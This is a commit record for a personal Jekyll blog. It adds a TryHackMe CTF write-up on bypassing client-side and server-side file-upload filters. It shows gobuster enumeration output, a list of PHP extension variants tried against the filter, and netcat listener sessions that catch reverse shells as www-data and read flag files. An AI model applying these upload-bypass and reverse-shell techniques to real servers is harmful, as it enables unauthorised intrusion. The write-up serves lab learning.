

Before and after one commit to andrewn2000/myCTF, a Jekyll site: the page built from _posts/2024-01-29-Upload-Vulns.markdown, in a window 1280 px wide and 1400 px high, scrolled down 2287 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2917 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
uploadvulns bypass server side filtering

````diff
--- a/_posts/2024-01-29-Upload-Vulns.markdown
+++ b/_posts/2024-01-29-Upload-Vulns.markdown
@@ -111,3 +112,99 @@ usr
 var
 $ cat /var/www/flag.txt
 ```
+
+Bypassing Client-side filtering
+```
+gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url:            http://java.uploadvulns.thm
+[+] Threads:        10
+[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Status codes:   200,204,301,302,307,401,403
+[+] User Agent:     gobuster/3.0.1
+[+] Timeout:        10s
+===============================================================
+2024/01/30 20:39:03 Starting gobuster
+===============================================================
+/{REDACTED} (Status: 301)
+/assets (Status: 301)
+/server-status (Status: 403)
+
+```
+I initially had a hard time with Burpsuite, but maybe because I was distracted.  I managed to get the shell uploaded but couldn't get the reverse listener to work.
+
+My guess is that my parameter was missing in the reverse shell script, but perhaps its better just to restart everything fresh.  I originally thought it may have something to do with the magic numbers, but managed to upload successfully and get the flag.  Whew!
+```
+root@ip-10-10-34-10:~# nc -lvnp 9000
+Listening on [0.0.0.0] (family 0, port 9000)
+Connection from 10.10.209.29 33950 received!
+Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 01:19:17 up 31 min,  0 users,  load average: 0.00, 0.00, 0.14
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ cat /var/www/flag.txt
+THM{NDll(REDACTED)}
+
+```
+
+## Bypassing Server-Side Filtering:  File Extensions
+
+Gobuster again!
+```
+gobuster dir -u http://annex.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url:            http://annex.uploadvulns.thm
+[+] Threads:        10
+[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Status codes:   200,204,301,302,307,401,403
+[+] User Agent:     gobuster/3.0.1
+[+] Timeout:        10s
+===============================================================
+2024/01/31 01:35:16 Starting gobuster
+===============================================================
+/privacy (Status: 301)
+/assets (Status: 301)
+/server-status (Status: 403)
+Progress: 146849 / 220561 (66.58%)^C
+[!] Keyboard interrupt detected, terminating.
+===============================================================
+2024/01/31 01:45:03 Finished
+
+```
+While its running I'm thinking of using Burp Suite Intuder to change it against different file types since it will be most likely looking for php
+.php3
+.php4
+.php5
+.php7
+.phps
+.php-s
+.pht
+.phar
+But this didn't work
+
+I manually edit the file type extension and got lucky
+![Image of uploadvulns]({{site.baseurl}}/assets/img/uploadvulns-bypass-server-side-filtering.png
+)
+
+```
+root@ip-10-10-34-10:~# nc -lvnp 9000
+Listening on [0.0.0.0] (family 0, port 9000)
+Connection from 10.10.209.29 44902 received!
+Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 02:00:04 up  1:12,  0 users,  load average: 0.00, 0.04, 0.17
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ cat /var/www/flag.txt
+THM{MGE{READACTED}
+
+```
````
Also changed, not shown: other parts of _posts/2024-01-29-Upload-Vulns.markdown (+3 -2 lines), assets/img/uploadvulns-bypass-server-side-filtering.png (added).
